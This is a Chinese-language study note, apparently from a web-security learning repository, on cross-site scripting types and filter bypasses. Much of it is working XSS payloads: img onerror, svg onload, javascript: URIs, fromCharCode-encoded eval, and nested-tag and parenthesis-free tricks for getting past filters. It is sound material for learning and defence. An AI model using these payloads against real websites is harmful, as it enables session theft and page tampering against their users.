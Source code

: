 ## Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)    
1. reflected xss (非持久型):    
  
2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容  
  
3. DOM xss:   
注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  

## XSS Vulnerability exists?
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<a href=1 onload=alert(1)>hi</a>
```
在這裏個人認為較重要的是分析注入點對網頁產生的影響，我注入的惡意代碼沒有作用可能有兩種原因：  
1. 網頁不存在可利用的xss漏洞，可能注入點直接將值插入網頁作為內容  
2. 惡意代碼被過濾掉，或者轉譯了 -> 這種情況下就要分析有沒有代替字元來繞過過濾名單，或者繞過轉譯！

## 常見限制 < 對抗手勢
* filter 對一些危險標籤做過濾  
  * 大小寫混用  
  * 一次過濾繞過  
```php
str_replace('<script>','',$GET['hi'])  //這裏代表hi中的<script>會變空字串
// <scr<script>ipt> 
```  
  * 使用正規表達式高效率的過濾  
```php
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['hi'])   // 大寫小寫一次繞過全都會被擋掉
// <img src=1 onerror=alert(1)>
```
* encode 轉譯危險標籤  
  * url encode: % + ASCII(hex) ```%3Cscript%3E```  
  補充js常見處理函式: ```escape()/unescape(), encodeURL()/decodeURL(), encodeURLComponent()/decodeURLComponent()```  
  * html encode  
```php
htmlspecialchars($_GET['hi']);  // 會將特殊字元通通轉譯掉 
// 這種情況下將無法再進行注入
```
  * unicode encode: %u + ASCII(hex)  
  * ascii encode  
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script ```<script src=".js"></script>```  
* 未過濾\n類符號  
```js
<img src="javas
cript:
alert(/1/);">
```

## 正規表達式
js中會用正規表達式來過濾危險字符，參考如下文件：  
[Documentation](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Regular_Expressions#.E9.80.9A.E8.BF.87.E5.8F.82.E6.95.B0.E8.BF.9B.E8.A1.8C.E9.AB.98.E7.BA.A7.E6.90.9C.E7.B4.A2)

## 攻擊手勢  
* script  
```js
<script>a=prompt;a(1)</script>
```
* img  
```js
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">
```
* svg  
```js
<svg/onload=alert(1)>
```
* body  
```js
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29’;>   
// 這種payload也可以繞過括號過濾
```

## Reference
1. The Web Application Hacker's Handbook  
2. [看雪](https://www.kanxue.com)  
3. [烏雲](http://wps2015.org/drops/drops/Bypass%20xss%E8%BF%87%E6%BB%A4%E7%9A%84%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95.html)  
4. [云淡风轻](http://blog.idhyt.com/2014/10/15/technic-xss-bypass/)  
5. [freebuf](http://www.freebuf.com/articles/web/153055.html)
